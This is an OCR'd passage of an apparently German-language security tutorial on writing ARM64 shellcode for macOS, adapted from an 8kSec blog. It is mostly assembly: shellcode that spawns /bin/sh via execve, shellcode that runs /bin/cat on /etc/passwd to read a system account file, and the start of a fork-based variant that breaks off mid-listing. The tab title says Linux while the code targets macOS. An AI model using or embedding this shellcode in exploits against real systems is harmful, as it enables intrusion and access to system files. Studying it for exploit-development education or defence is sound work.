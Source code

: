 {% tab title="mit adr für linux" %}
```armasm
; From https://8ksec.io/arm64-reversing-and-exploitation-part-5-writing-shellcode-8ksec-blogs/
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
adr  x0, sh_path  ; This is the address of "/bin/sh".
mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
mov  x16, #59     ; Move the execve syscall number (59) into x16.
svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```
{% endtab %}
{% endtabs %}

#### Mit cat lesen

Das Ziel ist es, `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)` auszuführen, sodass das zweite Argument (x1) ein Array von Parametern ist (was im Speicher einen Stack der Adressen bedeutet).
```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
; Prepare the arguments for the execve syscall
sub sp, sp, #48        ; Allocate space on the stack
mov x1, sp             ; x1 will hold the address of the argument array
adr x0, cat_path
str x0, [x1]           ; Store the address of "/bin/cat" as the first argument
adr x0, passwd_path    ; Get the address of "/etc/passwd"
str x0, [x1, #8]       ; Store the address of "/etc/passwd" as the second argument
str xzr, [x1, #16]     ; Store NULL as the third argument (end of arguments)

adr x0, cat_path
mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
mov x16, #59           ; Load the syscall number for execve (59) into x8
svc 0                  ; Make the syscall


cat_path: .asciz "/bin/cat"
.align 2
passwd_path: .asciz "/etc/passwd"
```
#### Befehl mit sh aus einem Fork aufrufen, damit der Hauptprozess nicht beendet wird
```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
; Prepare the arguments for the fork syscall
mov x16, #2            ; Load the syscall number for fork (2) into x8
svc 0                  ; Make the syscall
cmp x1, #0             ; In macOS, if x1 == 0, it's parent process, https://opensource.apple.com/source/xnu/xnu-7195.81.3/libsyscall/custom/__fork.s.auto.html
```